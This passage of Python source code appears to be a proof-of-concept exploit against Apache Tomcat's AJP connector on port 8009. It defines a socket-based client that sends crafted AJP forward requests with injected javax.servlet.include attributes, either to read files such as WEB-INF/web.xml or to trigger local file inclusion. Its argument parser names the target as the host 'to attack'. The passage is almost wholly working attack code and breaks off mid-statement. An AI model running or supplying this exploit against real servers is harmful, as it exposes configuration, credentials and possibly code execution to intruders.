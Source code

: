             'Upgrade-Insecure-Requests': '1',
            'Cache-Control': 'max-age=0'
        }
        fr.is_ssl = False
        fr.attributes = []
        return fr


    class Tomcat(object):
        def __init__(self, target_host, target_port):
            self.target_host = target_host
            self.target_port = target_port

            self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            self.socket.connect((target_host, target_port))
            self.stream = self.socket.makefile("rb", bufsize=0)

        def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[], lfi=False):
            if lfi:
                self.req_uri = req_uri + '.jspx'
            else:
                self.req_uri = req_uri
            self.forward_request = prepare_ajp_forward_request(
                self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
            print("Getting resource at ajp13://%s:%d%s" %
                  (self.target_host, self.target_port, req_uri))
            if user is not None and password is not None:
                self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + (
                    "%s:%s" % (user, password)).encode('base64').replace('\n', '')
            for h in headers:
                self.forward_request.request_headers[h] = headers[h]
            for a in attributes:
                self.forward_request.attributes.append(a)
            responses = self.forward_request.send_and_receive(
                self.socket, self.stream)
            if len(responses) == 0:
                return None, None
            snd_hdrs_res = responses[0]
            data_res = responses[1:-1]
            if len(data_res) == 0:
                print("No data in response. Headers:%s\n" %
                      snd_hdrs_res.response_headers)
            return snd_hdrs_res, data_res


    parser = argparse.ArgumentParser()
    parser.add_argument("target", type=str, help="Hostname or IP to attack")
    parser.add_argument('-p', '--port', type=int, default=8009,
                        help="AJP port to attack (default is 8009)")
    parser.add_argument('-w', '--webapp', type=str, default='ROOT',
                        help="Which webapp to attack (default is ROOT")
    parser.add_argument('-f', '--file', type=str,
                        default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
    parser.add_argument('-l', '--lfi', action="store_true",
                        help="local file include")
    args = parser.parse_args()
    t = Tomcat(args.target, args.port)
    _, data = t.perform_request('/'+args.webapp+'/', attributes=[
        {'name': 'req_attribute', 'value': [
            'javax.servlet.include.request_uri', '/']},
        {'name': 'req_attribute', 'value': [
            'javax.servlet.include.path_info', args.file]},
        {'name': 'req_attribute', 'value': [
            'javax.servlet.include.servlet_path', '/']},